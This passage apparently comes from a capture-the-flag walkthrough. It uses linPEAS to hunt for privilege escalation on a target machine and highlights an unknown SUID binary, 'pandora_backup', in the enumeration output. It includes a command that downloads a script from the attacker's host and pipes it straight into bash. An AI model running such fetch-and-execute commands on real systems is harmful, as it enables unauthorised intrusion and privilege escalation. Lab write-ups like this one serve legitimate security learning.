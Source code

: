 We can see here that there's another user named `matt`. That's probably the next step.

Next, we'll run [linPEAS](https://github.com/carlospolop/PEASS-ng) for some more enumeration. Download the most recent release of `linpeas.sh` to your system, `cd` into the folder it downloaded to, and run this command on your local box

```
python -m http.server
```

_**Notes:** you may have to swap out_ `python` _with_ `python3` _in some environments. This will also expose all the files in that folder to anyone on any networks you’re connected to, so feel free to create a special folder that just has linPEAS inside of it before you run this command if you don’t want to expose anything sensitive by accident._

Next, in the ssh session, run

```bash
curl http://<YOUR IP>:8000/linpeas.sh | bash
```

and linPEAS will automatically start up.

Looking through the output, we see something interesting

```
                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════                                                                                                            
                                         ╚═══════════════════╝                                                                                                                                                     
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                    
strings Not Found                                                                                                                                                                                                  
-rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                                                                                                              
-rwsr-xr-x 1 root root 31K May 26  2021 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 84K Jul 14  2021 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 44K Jul 14  2021 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 87K Jul 14  2021 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K Jul 21  2020 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-x--- 1 root matt 17K Dec  3 15:58 /usr/bin/pandora_backup (Unknown SUID binary)
-rwsr-xr-x 1 root root 67K Jul 14  2021 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 55K Jul 21  2020 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 67K Jul 21  2020 /usr/bin/su
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Jul 14  2021 /usr/bin/chsh
-rwsr-xr-x 1 root root 463K Jul 23  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23K May 26  2021 /usr/lib/policykit-1/polkit-agent-helper-1

```
